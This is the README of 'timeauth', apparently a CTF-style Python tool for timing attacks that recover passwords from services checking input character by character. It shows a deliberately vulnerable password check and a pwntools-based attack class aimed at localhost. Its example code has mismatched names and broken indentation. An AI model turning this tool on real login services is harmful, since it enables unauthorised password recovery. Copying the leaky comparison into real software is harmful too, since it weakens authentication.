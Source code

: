 # timeauth

Python Time Based Authentication Attack Tool

## Development

You can contribute by sending merge requests and/or issues on this github opensource project.

## Demo:

[![asciicast](https://asciinema.org/a/cQ3RF8VO3fCt0bl1WgkOepIwf.png)](https://asciinema.org/a/cQ3RF8VO3fCt0bl1WgkOepIwf)

## Usage:

### Installation

You can install this package by launching:

```sh
pip install timeauth
```

### Examples

Suppose that we have a listenning tcp service on `localhost:1337` waiting for a password input. 
What if the code behind this TCP service have been done by a weird developer and checks your input char by char
and sleeping each time it checks your char ( or do a BIG action on his server that take some time ).

```sh
> nc localhost 1337
Hello !
password please: SakiiR
Bad Password ! BYE BYE
[!] Closed connection ..
```

And the following backend password verification:

```py
def check_password(input, real):
    if(len(input_flag) == 0):
            return False
        for left, right in zip_longest(input_flag, flag):
            if(left != right):
                return False
            sleep(0.25) # prevent brute forcing
        return True
```

This package has been made to make exploitation of this kind of service faster by implementating a Single Class.

exemple:

```py
from pwn import remote, context
from timeauth import TimeAuthChecker


class ExampleChecker(TimeAuthChecker):

    def __init__(self):
        super(self.__class__, self).__init__(
            charset="0123456789",
            token_length=10,
            hidden_char="*"
        )

    def request(self):

        context.log_level = 'error'
        s = remote('localhost', 1337)
        s.recvuntil(':')
        s.sendline(self.get_token())
        s.readall()
        s.close()
        context.log_level = 'info'

if __name__ == "__main__":
    a = RootmeChecker()
    a.process()
    a.print_token()
```


